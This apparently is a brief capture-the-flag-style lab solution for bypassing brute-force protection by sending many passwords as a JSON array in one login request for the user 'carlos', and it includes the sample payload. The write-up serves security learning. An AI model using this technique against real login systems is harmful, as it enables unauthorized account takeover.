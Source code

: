 # Broken brute-force protection, multiple credentials per request
Solution:
- Notice that the login request is sent as JSON
- Change the login request to add multiple passwords in the password parameter (set it as an array)
```json
{
"username": "carlos",
"password": [
	"password1",
	"password2",
	"password3",
	"password4",
	...
	...
	]
}
```
- Make the login request and notice that we can successfully login